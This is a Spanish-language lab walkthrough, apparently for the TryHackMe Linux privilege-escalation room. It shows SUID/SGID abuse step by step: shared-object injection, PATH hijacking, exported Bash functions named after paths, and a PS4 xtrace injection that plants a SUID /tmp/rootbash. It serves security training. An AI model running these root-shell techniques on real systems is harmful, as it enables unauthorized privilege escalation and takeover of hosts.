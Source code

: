 # SUID/SGID

## Executables Known Exploit

Encuentra todos los ejecutables SUID/SGID en la máquina virtual Debian:

find / -type f -a ( -perm -u+s -o -perm -g+s ) -exec ls -l {} ; 2> /dev/null

Se puede buscar los exploit de los programas que aparezcan.

## Executables Shared Object Injection

El ejecutable SUID /usr/local/bin/suid-so es vulnerable a la inyección de objeto compartido.

```bash
/usr/local/bin/suid-so
```

Ejecuta strace en el archivo y busca en la salida las llamadas a open/access y los errores de "no existe tal archivo":

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Observa que el ejecutable intenta cargar el objeto compartido /home/user/.config/libcalc.so dentro de nuestro directorio personal, pero no puede encontrarlo.

Crea el directorio .config para el archivo libcalc.so:

```bash
mkdir /home/user/.config
```

El código de objeto compartido de ejemplo se puede encontrar en /home/user/tools/suid/libcalc.c. Simplemente genera una shell de Bash. Compila el código en un objeto compartido en la ubicación donde el ejecutable suid-so estaba buscando:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Ejecuta nuevamente el ejecutable suid-so y toma nota de que esta vez, en lugar de una barra de progreso, obtenemos una shell de root.

```bash
/usr/local/bin/suid-so
```

## Executables Environment Variables

El ejecutable SUID /usr/local/bin/suid-env puede ser explotado debido a que hereda la variable de entorno PATH del usuario e intenta ejecutar programas sin especificar una ruta absoluta.

Primero, ejecuta el archivo y observa que parece estar intentando iniciar el servidor web apache2:

```bash
/usr/local/bin/suid-env
```

Ejecuta el comando strings en el archivo para buscar cadenas de caracteres imprimibles:

```bash
strings /usr/local/bin/suid-env
```

Una línea ("service apache2 start") sugiere que el ejecutable service está siendo llamado para iniciar el servidor web, sin embargo, no se está utilizando la ruta completa del ejecutable (/usr/sbin/service).

Compila el código ubicado en /home/user/tools/suid/service.c en un ejecutable llamado service. Este código simplemente genera una shell de Bash:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Antepón el directorio actual (o donde se encuentre el nuevo ejecutable service) a la variable de entorno PATH, y ejecuta el ejecutable suid-env para obtener una shell de root:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

## Executables Abusing Shell Features

El ejecutable /usr/local/bin/suid-env2 es idéntico a /usr/local/bin/suid-env, excepto que utiliza la ruta absoluta del ejecutable service (/usr/sbin/service) para iniciar el servidor web apache2.

Verifica esto con el comando strings:

```bash
strings /usr/local/bin/suid-env2
```

En las versiones de Bash <4.2-048, es posible definir funciones de shell con nombres que se asemejan a rutas de archivo, luego exportar esas funciones para que se utilicen en lugar de cualquier ejecutable real en esa ruta de archivo.

Verifica la versión de Bash instalada en la máquina virtual Debian y asegúrate de que sea inferior a 4.2-048:

```bash
/bin/bash --version
```

Crea una función de Bash con el nombre "/usr/sbin/service" que ejecute una nueva shell de Bash (usando -p para que se conserven los permisos) y exporta la función:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Ejecuta el ejecutable suid-env2 para obtener una shell de root:

```bash
/usr/local/bin/suid-env2
```

Nota: Esto no funcionará en versiones de Bash 4.4 y superiores.

Cuando está en modo de depuración, Bash utiliza la variable de entorno PS4 para mostrar un indicador adicional para declaraciones de depuración.

Ejecuta el ejecutable /usr/local/bin/suid-env2 con la depuración de bash habilitada y la variable PS4 establecida en un comando incrustado que crea una versión SUID de /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Ejecuta el ejecutable /tmp/rootbash con -p para obtener una shell que se ejecuta con privilegios de root:

```bash
/tmp/rootbash -p
```

Recuerda eliminar el ejecutable /tmp/rootbash y salir de la shell elevada antes de continuar, ya que crearás este archivo nuevamente más adelante en la sala:

```bash
rm /tmp/rootbash
exit
```

<mark style="color:red;">**CTF**</mark>

{% embed url="https://tryhackme.com/r/room/linuxprivesc" %}
